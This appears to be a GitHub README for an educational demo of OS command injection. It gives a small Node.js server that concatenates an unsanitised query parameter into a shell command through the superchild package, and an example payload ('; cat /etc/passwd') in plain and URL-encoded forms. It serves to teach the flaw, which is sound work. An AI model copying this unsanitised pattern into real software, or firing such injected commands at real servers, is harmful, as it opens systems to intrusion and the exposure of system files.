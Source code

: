 # Source Code
The purpose of this application is to demonstrate the capabilities of an OS command injection exploit using the Superchild npm package.

## superchild_exploitable.js
This file creates a simple web server, and allows a client to call the ls command in the console of the server via the url.

```
// Make sure the http and url libraries are loaded
const http = require('http'),
      url = require('url'),
      superchild = require('superchild');
// Create an http server
http.createServer(function (req, res) {
    // Lambda that defines how the http server reacts to <input
    // Responds with 200 in header
    res.writeHead(200, {'Content-Type': 'text/plain'});
    //Parses url
    let q = url.parse(req.url, true).query;
    //Creates child process for ls
    let child = superchild('ls ' + q.file_path);
    //On command, output is returned to console
    child.on('stdout_line', function (line) {
      console.log(line);
    });
    res.end()
}).listen(8080);
```

# Running the sample
run the script via node:
```
foo@bar:~$ node superchild_exploitable.js
```

## Dependencies
You can install these with the following command `npm install <pkg>`

- superchild

## Running application
Once a client accesses the server with a query for `file_path`, the contents of that file path will be read to the console.

# Payload

## Procedure
- Go to `localhost:8080/`
- Insert the payload via the query string of the url (Ex. `localhost:8080/?file_path=(payload goes here)`)
  - `; cat /etc/passwd`
    - `localhost:8080/?file_path=; cat /etc/passwd`
    - `localhost:8080/?file_path=;%20cat%20/etc/passwd`
- Effects can be observed in the console of the server

## Why it works?
Because the user input is not sanitized, the resulting command can be concatenated with an arbitrary command, separated by a semicolon.
